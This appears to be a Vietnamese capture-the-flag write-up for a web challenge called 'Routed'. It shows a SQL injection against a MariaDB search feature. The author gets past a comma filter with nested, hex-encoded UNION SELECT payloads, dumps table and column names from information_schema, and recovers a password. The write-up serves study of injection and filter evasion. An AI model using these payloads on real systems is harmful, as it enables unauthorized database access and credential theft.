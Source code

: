 mình check feature search, vì login có vẻ không đấm được
![image](../image/8.1.png)

payload `admin'`
![image](../image/8.2.png)
server dùng MariaDB

truyền payload `admin'union select 1,2 --`

![image](../image/8.3.png)

có vẻ nó đã có filter, sau 1 hồi thử sai mình tóm gọn lại nó filter 1 số input sau: `dấu phẩy(,) | or | orderby `

ngồi nhìn lại tiêu đề chall là `Routed`, mình nảy ra âu hỏi, nếu nó filter dấu phẩy để tránh mình truy vấn thêm cột thì mình có thể lồng thêm 1 câu truy vấn nữa vào câu truy vấn trước đó không ?

tiến hành exploit bằng cách thử sai để chứng minh

payload: 
`
-999'union select 0x2E312720756E696F6E2073656C65637420312C2873656C6563742067726F75705F636F6E636174287461626C655F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E7461626C6573207768657265207461626C655F736368656D613D64617461626173652829292D2D202D
`

trong đó dãy hex sai khi decode ta thu được
`.1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database())-- -`

![image](../image/8.4.png)
lấy tên cột
payload: `-9'union select 0x2E312720756E696F6E2073656C65637420312C2873656C6563742067726F75705F636F6E63617428636F6C756D6E5F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E636F6C756D6E73207768657265207461626C655F6E616D653D27757365727327292D2D202D-- -
`
![image](../image/8.5.png)

lấy password
![image](../image/8.6.png)

`soong1002chanqua`









